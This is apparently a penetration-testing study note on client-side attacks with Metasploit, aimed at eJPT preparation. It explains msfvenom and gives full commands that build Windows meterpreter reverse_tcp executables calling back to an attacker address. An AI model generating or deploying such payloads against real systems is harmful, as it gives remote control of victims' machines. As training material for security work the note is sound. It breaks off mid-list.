 # Client-Side Attacks

## ​[Client-Side Attacks](https://www.offsec.com/metasploit-unleashed/client-side-attacks/) with MSF <a href="#client-side-attacks-with-msf" id="client-side-attacks-with-msf"></a>

A **client-side attack** is a security breach that happens on the client side.

* Social engineering techniques take advantage of human vulnerabilities
* Require user-interaction to open malicious documents or portable executables (**`PEs`**)
* The payload is stored on the client's system
* Attackers have to pay attention to Anti Virus detection

> ❗ _**Advanced modern antivirus solutions detects and blocks this type of payloads very easily.**_

### ​[Msfvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/) Payloads <a href="#msfvenom-payloads" id="msfvenom-payloads"></a>

> ​[**`msfvenom`**](https://www.kali.org/tools/metasploit-framework/#msfvenom) - a Metasploit standalone payload generator and encoder
>
> * **`e.g.`** - generate a malicious meterpreter payload, transfer it to a client target; once executed it will connect back to the payload handler and provides with remote access

* List available payloads

msfvenom --list payloads

* When generating a payload the exact name of the payload must be specified
  * target operating system
  * target O.S. architecture (x64, x86 ...)
  * payload type
  * protocol used to connect back (depends on requirements)

**`e.g.`** of **Staged payload**

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-8374500896fdbc9698dcf904ca377f5d0d9a4158%2Fimage-20230415190726950.png?alt=media" alt=""><figcaption></figcaption></figure>

* `windows/x64/meterpreter/reverse_tcp`

**`e.g.`** of **Non-Staged payload**

* `windows/x64/meterpreter_reverse_https`

<figure><img src="https://2946054920-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-034cc3f4b42408fe6a3e0fb23ba7a745fa9482de%2Fimage-20230415191239575.png?alt=media" alt=""><figcaption></figcaption></figure>

* Generate a Windows payload with `msfvenom`

**32bit payload:**msfvenom -a x86 -p windows/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -f exe > /home/kali/certs/ejpt/Windows\_Payloads/payloadx86.exe​# LHOST = Attacker IP address**64bit payload:**msfvenom -a x64 -p windows/x64/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -f exe > /home/kali/certs/ejpt/Windows\_Payloads/payloadx64.exe

* List the output formats available
